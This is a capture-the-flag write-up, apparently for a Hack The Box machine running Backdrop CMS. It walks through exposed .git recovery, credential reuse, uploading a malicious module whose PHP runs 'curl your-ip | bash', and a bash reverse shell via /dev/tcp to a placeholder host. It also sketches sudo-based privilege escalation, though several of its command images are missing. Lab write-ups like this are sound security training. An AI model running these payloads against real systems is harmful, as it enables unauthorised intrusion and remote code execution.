

The machine exploits several common weaknesses in web and server environments: exposed `.git` repositories, disclosure of sensitive credentials, accessible admin panel, uploading malicious files in a vulnerable CMS, password reuse, and misconfigured Sudo permissions allowing execution of privileged binaries.

## Enumeration

I started the enumeration phase by scanning the ports with nmap; ports 80 (HTTP) and 22 (SSH) were detected as open. This indicates there is a running website and an SSH port which, if we obtain credentials, we can use to access. As a standard procedure, we run the basic nmap scripts.

#### Command to enumerate possible nmap scripts

```bash
nmap -sC -p22,80 IP
```


## Reconnaissance

We detected that the `.git` file is exposed due to misconfiguration. Using the tool [GitHack](https://github.com/lijiejie/GitHack), we can automate the restoration of this repository.

```bash
python3 GitHack.py IP/.git
```


Among all these files, the one that caught my attention the most is `settings.php`, so I reviewed it and found exposed database credentials:



On the web service, I tried to log in as root, but it was impossible. Before attempting a brute-force attack to try common usernames, I performed an enumeration of possible leaked email addresses:

```bash
grep -r '\.htb'
```

Inside the `files` directory, we found a file containing the email `tiffany@dog.htb`. Using the previously obtained credentials, we successfully logged in and accessed the admin dashboard.

## Exploitation

After exploring the web service for a while, I discovered a panel listing several users. I tried connecting via SSH with them, but it was unsuccessful. However, I noticed I could install modules, so I started researching how modules work in Backdrop CMS.  

I downloaded a ZIP containing the official [examples](https://backdropcms.org/project/examples), and after analyzing them, I found that the `page_example` directory contained an important PHP file: `page_example.module`. I deleted its content and replaced it with:

```php
<?php
    system('curl your-ip | bash');
?>
```

I compressed it, as only `.tar.gz` files were accepted, and when attempting to install it, an error appeared:


This can be briefly fixed by going back to the examples directory and adding `type = module` to the `page_example.info` file. With this, the installation should work.

Before finishing the installation, we set up a Python server containing an `index.html` with the bash one-liner:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/your-ip/port 0>&1"
```

We listen with NetCat on the specified port and complete the module installation. This should give a reverse shell with the `www-data` user. I then enumerated the users present on the machine:


Reusing the credentials obtained at the beginning, I successfully logged in as the user `jhoncusack`, who holds the flag. While logged in as `jhoncusack`, I performed routine reconnaissance and noticed all users have permissions to execute the `/usr/local/bin/bee` binary, which is critical:


To escalate privileges, I exploited this binary, as it clearly allows arbitrary command execution using `eval`:


For this to work, you only need to specify a path where `root` is being used:


# END
